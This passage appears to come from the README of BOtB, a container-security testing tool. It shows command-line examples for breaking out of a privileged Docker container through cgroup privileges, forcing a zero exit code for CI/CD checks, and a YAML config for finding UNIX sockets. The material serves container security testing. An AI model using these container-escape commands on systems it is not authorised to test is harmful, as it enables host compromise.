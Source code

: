 ### Break out of a Privileged Container
```
#  ./bob_linux_amd64 -pwn-privileged=hostname
[+] Break Out The Box
[+] Attempting to exploit CGROUP Privileges
[*] The result of your command can be found in /output
[+] Finished
root@418fa238e34d:/app# cat /output 
docker-desktop
```

### Force BOtB to always succeed with a Exit Code of 0
This is useful for non-blocking CI/CD tests
```
#  ./bob_linux_amd64 -pwn-privileged=hostname -always-succeed-true
[+] Break Out The Box
[+] Attempting to exploit CGROUP Privileges
[*] The result of your command can be found in /output
[+] Finished
# echo $?
0

```

### Using BOtB with a YAML config file
Example YAML file cfg.yml

```
payload: id
verbose: false
always-succeed: true
cicd: false
endpointlist: endpoints.txt
wordlist: wordlist.txt
path: /
mode: find-sockets

```
Run BOtB with the above YAML

```
#  ./bob_linux_amd64 -config=cfg.yml
[+] Break Out The Box
[+] Loading Config: cfg.yml
[+] Looking for UNIX Domain Sockets from: /
[!] Valid Socket: /tmp/thisisnotasocket.mock
[+] Finished

```

# Using BOtB with CI\CD
BOtB can be used with CI\CD technologies that make use of exit codes to determine if tests have passed or failed. Below is a Shell script that executes two BOtB tests and the exit codes of the two tests are used to set the exit of the Shell script. If any of the two tests return an Exit Code >0, the test executing the shell script will fail.
